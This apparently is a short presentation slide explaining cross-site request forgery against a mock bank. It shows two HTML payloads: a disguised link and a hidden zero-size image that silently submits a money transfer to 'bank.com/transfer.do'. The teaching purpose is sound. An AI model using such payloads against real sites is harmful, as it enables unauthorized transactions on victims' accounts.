

#
The exploit URL can be disguised as an ordinary link, encouraging the victim to click it:<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>
Or as a 0x0 fake image:
<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">
If this image tag were included in the email, Alice wouldn't see anything. However, the browser will still submit the request to bank.com without any visual indication that the transfer has taken place.